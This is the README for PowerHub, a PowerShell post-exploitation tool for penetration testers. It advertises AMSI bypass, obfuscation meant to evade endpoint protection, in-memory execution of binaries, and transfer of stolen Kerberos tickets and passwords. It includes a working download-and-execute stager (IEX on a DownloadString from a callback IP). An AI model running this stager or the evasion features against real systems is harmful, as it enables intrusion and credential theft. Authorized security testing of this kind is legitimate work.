


PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Check out the
[Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)! Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs





During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```powershell
PS C:\Users\avollmer> $K=New-Object Net.WebClient;'a=reflection','t=http'|%{IEX $K.DownloadString('http://192.168.11.2:8080/0?'+$_)}
True
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
1.11                        written by Adrian Vollmer, 2018-2022
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView


Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```


Installation
============

PowerHub can be installed like any other Python package. Just execute
`python3 -m pip install powerhub`. If you like to work with virtual
environments, I recommend [pipx](https://github.com/pypa/pipx/).

If you want to use the latest version on the dev branch, clone this
repository and install with `python3 -m pip install -e .`.

For building the payloads, you need the MinGW GCC and Mono C# compilers. On
Debian-like systems, you can install them with `apt-get install mono-mcs
gcc-mingw-w64-x86-64 gcc-mingw-w64-i686`.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `powerhub --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4, @SkelSec. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2023

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
